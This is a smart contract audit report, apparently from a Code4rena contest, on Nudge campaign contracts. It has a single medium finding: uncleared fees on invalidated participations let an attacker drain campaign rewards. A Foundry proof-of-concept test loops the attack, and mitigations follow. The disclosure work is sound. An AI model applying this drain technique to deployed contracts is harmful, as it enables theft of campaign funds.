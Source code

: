 <!--
---
title: Security Review Report
author: 4th05
date: March 24, 2025
header-includes:
  - \usepackage{titling}
  - \usepackage{graphicx}
---

\begin{titlepage}
    \centering
    \begin{figure}[h]
        \centering
        \includegraphics[width=0.5\textwidth]{logo.pdf} 
    \end{figure}
    \vspace*{2cm}
    {\Huge\bfseries 4th05\par}
    \vspace{3cm}
    {\Huge Nudge\par} 
    \vspace{0.5cm}
    {\Huge\itshape Security Review Report\par}
    \vfill
    {\Large \ 24 March 2025\par}
\end{titlepage}

\maketitle
CANCEL THIS LINE AND THE FIRST ONE TO TO ABOLISH NOTES AND GET PDF FILE -->




<!-- Your report starts here! -->

<!-- Prepared by: [4th05](https://x.com/0x4th05)
Lead Auditors:  
- xxxxxxx
\begin{flushright}...\end{flushright}
-->

&nbsp;

&nbsp;

&nbsp;

&nbsp;


# Table of Contents

- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Overview](#overview)
- [Scope](#scope)
- [Issues found](#issues-found)
- [Findings](#findings)
  - [\[M1\] Rewards can be drained by fees of invalidated attackers' participation](#m1-rewards-can-be-drained-by-fees-of-invalidated-attackers-participation)

&nbsp;

&nbsp;

&nbsp;

&nbsp;

# Protocol Summary

Nudge is a Reallocation Marketplace that helps protocols incentivize asset movement across blockchains and ecosystems.
Nudge empowers protocols and ecosystems to grow assets, boost token demand, and motivate users to reallocate assets within their wallets—driving sustainable, KPI-driven growth.

With Nudge, protocols can create and fund campaigns that reward users for acquiring and holding a specific token for at least a week. Nudge smart contracts acts as an escrow for rewards, while its backend system monitors participants' addresses to ensure they maintain their holdings of said token for the required period. Nudge provides an all-in-one solution, eliminating the need for any technical implementation by protocols looking to run such incentivisation campaigns.

# Disclaimer

A smart contract security review can never verify the complete absence of vulnerabilities. This is a time, resource and expertise bound effort where I try to find as many vulnerabilities as possible. I can not guarantee 100% security after the review or even if the review will find any problems with your smart contracts. Subsequent security reviews, bug bounty programs and on-chain monitoring are strongly recommended.


&nbsp;

&nbsp;


# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

&nbsp;

&nbsp;

# Overview 
|                  |                                          |
| ---------------- | :--------------------------------------: |
| Contest platform |                Code4rena                 |
| LOC              |                   641                    |
| Language         |                 Solidity                 |
| Commit           | fbda3958dbd813e6bfa8b5a866828f7d6c59008f |
| Previous audits  |  Oak Security audit, 4naly3er, Slither  |


# Scope

 - /src/campaign/NudgeCampaign.sol
 - /src/campaign/NudgeCampaignFactory.sol
 - /src/campaign/NudgePointsCampaigns.sol
 - /src/campaign/interfaces/IBaseNudgeCampaign.sol
 - /src/campaign/interfaces/INudgeCampaign.sol
 - /src/campaign/interfaces/INudgeCampaignFactory.sol
 - /src/campaign/interfaces/INudgePointsCampaign.sol



# Issues found

| Severity | Number of issues found |
| :------- | :--------------------: |
| High     |           0            |
| Medium   |           1            |
| Low      |           0            |
| Info     |           0            |

&nbsp;

&nbsp;

# Findings

## [M1] Rewards can be drained by fees of invalidated attackers' participation

**Finding description and impact**

For all the `Participations` that become `INVALIDATED` fees are not subtracted from the `accumulatedFees`.   

```solidity
function invalidateParticipations(uint256[] calldata pIDs) external onlyNudgeOperator {
        for (uint256 i = 0; i < pIDs.length; i++) {
            Participation storage participation = participations[pIDs[i]];
            if (participation.status != ParticipationStatus.PARTICIPATING) {
                continue;
            }
            participation.status = ParticipationStatus.INVALIDATED;
            pendingRewards -= participation.rewardAmount;
        }
        emit ParticipationInvalidated(pIDs);
    }
```

This design choice opens a door to malicious behaviours that could harm the rewards of the `campaignAdmin`. 
An attacker could allocate big amounts of money acting intentionally so that to be `invalidated` reducing this way the rewards amount of a campaign. This could also be done by reiterating the allocation of a small amount of money without running any risk. 

Because of this attack, the `campaignAdmin` may face a shortage in rewards preventing this way any further allocation of funds in the campaign. 

&nbsp;

&nbsp;

**Proof of Concept**

```solidity
contract NudgeCampaignTest is Test {
    NudgeCampaign private campaign;
    address ZERO_ADDRESS = address(0);
    address NATIVE_TOKEN = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    address owner;
    uint256 constant REWARD_PPQ = 2e13;
    uint256 constant INITIAL_FUNDING = 100_000e18;
    uint256 constant BPS_DENOMINATOR = 1e4;
    uint256 constant PPQ_DENOMINATOR = 1e15;
    address alice = address(11);
    address bob = address(12);
    address swapCaller = address(13);
    address campaignAdmin = address(14);
    address nudgeAdmin = address(15);
    address treasury = address(16);
    address operator = address(18);
    address alternativeWithdrawalAddress = address(16);
    address campaignAddress;
    uint32 holdingPeriodInSeconds = 60 * 60 * 24 * 7; // 7 days
    uint256 initialFundingAmount = 100_000e18;
    uint256 rewardPPQ = 5e14;
    uint256 RANDOM_UUID = 111_222_333_444_555_666_777;
    uint256[] pIDsWithOne = [1];
    uint16 DEFAULT_FEE_BPS = 1000;
    TestERC20 toToken;
    TestERC20 rewardToken;
    NudgeCampaignFactory factory;

    function setUp() public {
        owner = msg.sender;
        toToken = new TestERC20("Incentivized Token", "IT");
        rewardToken = new TestERC20("Reward Token", "RT");
        factory = new NudgeCampaignFactory(treasury, nudgeAdmin, operator, swapCaller);

        campaignAddress = factory.deployCampaign(
            holdingPeriodInSeconds,
            address(toToken),
            address(rewardToken),
            REWARD_PPQ,
            campaignAdmin,
            0,
            alternativeWithdrawalAddress,
            RANDOM_UUID
        );
        campaign = NudgeCampaign(payable(campaignAddress));

        vm.deal(campaignAdmin, 10 ether);

        vm.prank(campaignAdmin);
        rewardToken.faucet(10_000_000e18);
        // Fund the campaign with reward tokens
        vm.prank(campaignAdmin);
        rewardToken.transfer(campaignAddress, INITIAL_FUNDING);
    }

function test_campaignAdminFeesAttack() public {
         
        uint256 start = block.timestamp;
        uint256 lastparticipationID;
        address attacker = makeAddr("attacker");
        uint256[] memory participationstoinvalidate = new uint256[](1); 
        uint256 idparticipationstoinvalidate;

        vm.prank(swapCaller);
        toToken.approve(address(campaign), type(uint256).max);
        uint256 availablerewards = campaign.claimableRewardAmount();
        
        while (availablerewards >= 50_000e18){
        // Simulate getting toTokens from end user
        vm.startPrank(swapCaller);
        toToken.faucet(50_000e18);
        campaign.handleReallocation(RANDOM_UUID, attacker, address(toToken), 50_000e18, "");
        
        lastparticipationID = campaign.pID();
        // pass time for holdings check
        start += 5 minutes;
        vm.warp(start);
        vm.stopPrank();

        vm.startPrank(operator);
        idparticipationstoinvalidate++;
        participationstoinvalidate[0] = lastparticipationID;
        campaign.invalidateParticipations(participationstoinvalidate);
        vm.stopPrank();

        availablerewards = campaign.claimableRewardAmount();
        }

        assertLe(campaign.claimableRewardAmount(), 50_000e18);
    }
}
```
&nbsp;

&nbsp;

**Recommended mitigation steps**

Possible solutions 
- Subtract the fees from the `accumulatedFees` variable, in case of `ParticipationStatus.INVALIDATED`
- Keep a small percentage from reallocated amounts of money and give them back to the user when claiming the rewards
- Add the fees to `accumulatedFees` when users claim rewards
